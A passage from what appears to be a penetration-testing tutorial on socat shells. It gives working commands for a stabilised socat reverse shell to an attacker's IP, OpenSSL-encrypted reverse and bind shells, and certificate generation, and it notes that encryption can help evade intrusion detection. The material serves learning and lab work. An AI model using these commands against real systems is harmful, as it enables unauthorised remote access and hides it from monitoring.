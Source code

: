 As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the `Ctrl+Z`, `stty raw -echo; fg` trick with a netcat shell with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload. However, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows: `socat <local-ip>:<port> EXEC:"bash -li",pty,stderr,setsid,sigint,sane`

The first part is easy, we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:
* `pty`, allocates a pseudo-terminal on the target
* `stderr`, makes sure that any error messages get shown in the shell
* `sigint`, passes any `Ctrl+C` commands through into the sub-process, allowing us to kill commands inside the shell
* `setsid`, create the process in a new session
* `sane`, stabilises the terminal, attempting to normalise it

## Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells. Encrypted shells cannot be spied on unless we have the decryption key, and are often able to bypass an IDS as a result.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When we run this command it will ask us to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to merge the 2 created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`.

Now when we set up our reverse shell listener, we use: `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. The certificate must be used on whichever device is listening.

To connect back, we would use: `socat OPENSSL:<local-ip>:<port>,verify=0 EXEC:"/bin/bash"`

The same technique would apply to the bind shell.

On the target: `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

On the attacking machine: `socat OPENSSL:<target-ip>:<port>,verify=0 -`

## Common Shell Payloads
